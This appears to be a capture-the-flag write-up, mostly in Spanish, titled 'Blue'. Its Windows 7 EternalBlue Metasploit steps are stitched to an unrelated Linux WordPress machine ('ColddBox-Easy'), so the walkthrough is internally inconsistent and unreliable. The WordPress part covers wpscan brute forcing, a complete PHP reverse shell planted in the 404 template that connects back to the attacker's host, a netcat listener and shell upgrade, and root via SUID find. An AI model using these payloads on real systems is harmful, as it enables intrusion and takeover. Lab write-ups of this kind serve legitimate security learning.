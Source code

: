 # Blue — Writeup

**Fecha:** 5-10-2025\
**Plataforma:** TryHackMe

---

## TL;DR

Se encontró un WordPress vulnerable, se obtuvieron credenciales por fuerza bruta, se subió un reverse shell editando la plantilla 404, se consiguió shell como www-data, se mejoró a TTY interactiva y se explotó /usr/bin/find con SUID para elevar a root y leer las flags.

---

## Enumeration (nmap)

```bash
nmap -sV -sC --open $IP -oN scan.txt
```

**Comment:** `-sV` detecta versiones de servicios; `-sC` ejecuta scripts por defecto; `--open` muestra solo los puertos abiertos; `-oN` guarda la salida en un archivo normal.

**Result**
```bash
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
```

**Relevant Result**
* 445/tcp open microsoft-ds (Windows 7)
  
---

## Foothold (Metasploit)

```bash
  msfconsole
  msf > search windows 7 eternalblue
```
**Comment:** 'msfconsole' abre la interfaz de Metasploit

**Result**
```bash
#   Name                                           Disclosure Date  Rank     Check  Description
   -   ----                                           ---------------  ----     -----  -----------
   0   exploit/windows/smb/ms17_010_eternalblue       2017-03-14       average  Yes    MS17-010
```

**Set Exploit**
```bash
  msf > Use 0
  msf exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS $MACHINEIP
  msf exploit(windows/smb/ms17_010_eternalblue) > set LHOST $LOCALIP
```

**Run Exploit**
```bash
  msf exploit(windows/smb/ms17_010_eternalblue) > run
  meterpreter > 
```
## User Enumeration

```bash
  wpscan --url http://$IP --enumerate u 
```
**Comment:** `--enumerate u` enumera usuarios de wordpress.

**Result**
```bash
[i] User(s) Identified:

[+] the cold in person
 | Found By: Rss Generator (Passive Detection)

[+] c0ldd
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] hugo
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)

[+] philip
 | Found By: Author Id Brute Forcing - Author Pattern (Aggressive Detection)
 | Confirmed By: Login Error Messages (Aggressive Detection)
```

---

**Brute Force**
```bash
  wpscan --url http://$IP --usernames wp-users.txt --passwords /usr/share/wordlists/rockyou.txt
```
<details><summary><i>wp-users.txt</i></summary>

```bash
the cold in person 
c0ldd 
hugo 
philip
```
</details>

**Result**
```bash
[!] Valid Combinations Found:
 | Username: c0ldd, Password: REDACTED
```
## Foothold
**Login Wordpress**
```bash
http://$IP/wp-admin.php
Username: c0ldd, Password: REDACTED
```

**Edit Theme: 404 template**
```bash
404.php: reverse shell script
```

<details>
<summary>reverse shell script</summary>

```bash
<?php
set_time_limit (0);
$VERSION = "1.0";
$ip = '$IP';  // CHANGE THIS
$port = 1234;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

printit("Successfully opened reverse shell to $ip:$port");

while (1) {
	// Check for end of TCP connection
	if (feof($sock)) {
		printit("ERROR: Shell connection terminated");
		break;
	}

	// Check for end of STDOUT
	if (feof($pipes[1])) {
		printit("ERROR: Shell process terminated");
		break;
	}

	// Wait until a command is end down $sock, or some
	// command output is available on STDOUT or STDERR
	$read_a = array($sock, $pipes[1], $pipes[2]);
	$num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

	// If we can read from the TCP socket, send
	// data to process's STDIN
	if (in_array($sock, $read_a)) {
		if ($debug) printit("SOCK READ");
		$input = fread($sock, $chunk_size);
		if ($debug) printit("SOCK: $input");
		fwrite($pipes[0], $input);
	}

	// If we can read from the process's STDOUT
	// send data down tcp connection
	if (in_array($pipes[1], $read_a)) {
		if ($debug) printit("STDOUT READ");
		$input = fread($pipes[1], $chunk_size);
		if ($debug) printit("STDOUT: $input");
		fwrite($sock, $input);
	}

	// If we can read from the process's STDERR
	// send data down tcp connection
	if (in_array($pipes[2], $read_a)) {
		if ($debug) printit("STDERR READ");
		$input = fread($pipes[2], $chunk_size);
		if ($debug) printit("STDERR: $input");
		fwrite($sock, $input);
	}
}

fclose($sock);
fclose($pipes[0]);
fclose($pipes[1]);
fclose($pipes[2]);
proc_close($process);

// Like print, but does nothing if we've daemonised ourself
// (I can't figure out how to redirect STDOUT like a proper daemon)
function printit ($string) {
	if (!$daemon) {
		print "$string\n";
	}
}
 ?>
```

</details>

**Execute Payload**
```bash
http://$IP/wp-content/themes/twentyfifteen/404.php
```

**Listen Port**
```bash
$ nc -lvnp 1234             
listening on [any] 1234 ...
connect to [$IP] from (UNKNOWN) [$IP] 43560
Linux ColddBox-Easy 4.4.0-186-generic #216-Ubuntu SMP Wed Jul 1 05:34:05 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 00:40:36 up 17 min,  0 users,  load average: 0.07, 0.04, 0.01
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$
```

**Upgrade Shell**
```bash
# introducir en reverse shell
$ script /dev/null -c bash

# introducir en local terminal
$ stty raw -echo;fg             
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
www-data@ColddBox-Easy:/$ 
```

---

## Privilege Escalation
**Find SUID Files**
```bash
find / -perm /4000 2>/dev/null
```
**Comment:** ``/usr/bin/find`` es el resultado relevante arrojado.

**Exploit SUID Find**
```bash
find . -exec /bin/sh -p \; -quit
# whoami
root
```

**Cat User Flag**
```bash
# cat /home/c0ldd/user.txt
```

**Cat Root Flag**
```bash
# cat /root/root.txt
```
